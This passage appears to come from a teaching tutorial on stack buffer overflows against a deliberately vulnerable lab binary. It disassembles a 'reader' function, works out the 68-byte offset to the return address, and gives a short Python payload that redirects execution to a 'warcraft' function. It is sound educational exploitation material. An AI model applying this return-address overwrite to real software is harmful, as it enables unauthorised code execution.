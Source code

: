 As of now, requirement #2 mentioned above is complete. In order to also complete
the first requirement, we'll use `objdump` and check the `reader` function:
```
$ objdump -M intel -d vuln
08048529 <reader>:
 8048529:       55                      push   ebp
 804852a:       89 e5                   mov    ebp,esp
 804852c:       83 ec 40                sub    esp,0x40
 [...]
 804853c:       a1 40 a0 04 08          mov    eax,ds:0x804a040
 8048541:       50                      push   eax
 8048542:       68 80 00 00 00          push   0x80
 8048547:       8d 45 c0                lea    eax,[ebp-0x40]
 804854a:       50                      push   eax
 804854b:       e8 10 fe ff ff          call   8048360 <fgets@plt>
```
Our vulnerable buffer is the first parameter of `fgets`, which is at offset
`ebp - 0x40` i.e. `ebp - 64`. Which means that the offset of the return address
is `64 + 4 = 68` bytes into this buffer (remember how a stack frame looks like).

So, in order to call the `warcraft` function, we'll give our binary a payload
made up of a padding of 68 bytes, followed by the address of `warcraft`, written
in _little endian_ representation, which can be written like this:
```python
offset = 0x40 + 4
payload = offset * b"A" + pack(warcraft_address)
```
Now our exploit is done. In order to perform this exploit on `vuln64`, simply
run `objdump` on this binary and remember that the length of a pointer on a
64-bit architecture is 8 bytes, which means that the offset of the return
address is going to be `rbp + 8`.

One thing to keep in mind is that you are by no means required to use addresses
that point to the beginning of functions in your payloads. You can use any valid
address from the `.text` section and the exploit should work just fine in
executing code from the address you provide it.

Now on to our next scenario: what if the function we're calling requires a
parameter?

### Calling a Function with Parameters
Let's first look at the stack of a function when it's called "normally", i.e.
with a `call` instruction. Let's use the `overwatch` function in `vuln.c` as an
example. The picture below shows where its parameter is placed.

![Overwatch Stack](assets/overwatch_stack_simple.png)
